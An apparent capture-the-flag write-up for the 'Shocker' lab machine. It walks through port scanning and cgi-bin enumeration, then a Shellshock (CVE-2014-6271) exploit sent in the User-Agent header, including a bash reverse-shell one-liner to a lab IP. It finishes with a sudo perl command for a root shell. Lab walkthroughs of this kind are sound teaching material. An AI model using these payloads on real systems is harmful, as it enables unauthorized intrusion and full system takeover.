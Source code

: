 1, Recon 
port scan 
```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Page check
![](images/Pasted%20image%2020241206060213.png)
There is only one image and a line of sentence.

So I would continue to enumerate the web-content.
![](images/Pasted%20image%2020241206060533.png)
It seems like there would be scripts from `cgi-bin/`, Let's continue enumerating it.
```
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x sh,cgi,pl
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              sh,cgi,pl
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/user.sh              (Status: 200) [Size: 118]
```
Then we can get a `user.sh`.
```
Content-Type: text/plain

Just an uptime test script

 06:14:17 up  7:18,  0 users,  load average: 0.00, 0.01, 0.00
```
But it seems like no hint here, so I would use burpsuite to check what happen here.
we get the response
```
HTTP/1.1 200 OK
Date: Fri, 06 Dec 2024 11:17:12 GMT
Server: Apache/2.4.18 (Ubuntu)
Connection: close
Content-Type: text/x-sh
Content-Length: 118

Content-Type: text/plain

Just an uptime test script

 06:17:12 up  7:21,  0 users,  load average: 0.02, 0.02, 0.00

```
I found a wired content-type `text/x-sh` and by searching it, i found one introduction
`inside Shellshock: How hackers are using it to exploit systems`
`https://blog.cloudflare.com/inside-shellshock/`
```
ShellShock, AKA Bashdoor or CVE-2014-6271, was a vulnerability in Bash discovered in 2014 which has to do with the Bash syntax for defining functions. It allowed an attacker to execute commands in places where it should only be doing something safe like defining an environment variable. An initial POC was this:

env x='() { :;}; echo vulnerable' bash -c "echo this is a test"

This was a big deal because lots of different programs would take user input and use it to define environment variables, the most famous of which was CGI-based web servers. For example, it’s very typically to store the User-Agent string in an environment variable. And since the UA string is completely attacker controlled, this led to remote code execution on these systems.
```

If I’m ok to assume based on the CGI script and the name of that box that ShellShock is the vector here, I can just test is manually. I’ll send the request for user.sh over to Burp Repeater and play with it a bit. Because the UA string is a common target, I’ll try adding the POC there:
![](images/Pasted%20image%2020241206062141.png)
That means our payload is worked, so we can try to handle a reverse shell.
`() { :;}; echo; /bin/bash -i >& /dev/tcp/10.10.16.8/443 0>&1`

Then we successfully get the shell as shelly.

2, shell as root
By check what to do as root
```
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

That means we just use perl to run the shell and get the root shell.
`sudo perl -e 'exec "/bin/sh";'`
